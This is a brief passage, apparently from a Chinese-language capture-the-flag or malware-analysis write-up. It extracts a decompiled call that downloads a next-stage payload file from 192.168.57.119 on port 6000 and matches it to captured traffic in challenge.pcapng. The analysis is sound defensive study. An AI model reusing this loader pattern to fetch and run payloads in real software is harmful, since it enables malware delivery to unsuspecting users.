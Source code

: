 ![img](img/image_20241127-172720.png)

提取出来具体的参数

```c
sub_7E13E0("192.168.57.119", 6000, "files/1730391917.bin")
```

这就是下载下一阶段载荷的语句，并且这与 `challenge.pcapng` 流量数据相吻合
